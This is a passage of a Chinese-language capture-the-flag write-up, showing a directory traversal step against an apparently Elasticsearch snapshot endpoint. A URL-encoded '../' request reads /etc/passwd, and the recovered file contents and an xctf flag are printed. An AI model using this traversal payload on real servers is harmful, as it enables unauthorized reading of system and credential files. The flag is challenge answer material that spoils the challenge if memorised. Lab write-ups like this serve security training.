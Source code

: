 **3. 目录穿越读取任意文件**

直接访问url`http://218.2.197.232:20724/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](imgs/3.png)

将报错信息中的ascill码转换成字符即可看到相应内容：

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
flag=xctf{301015992d49af116da2b40698484ef3}
```
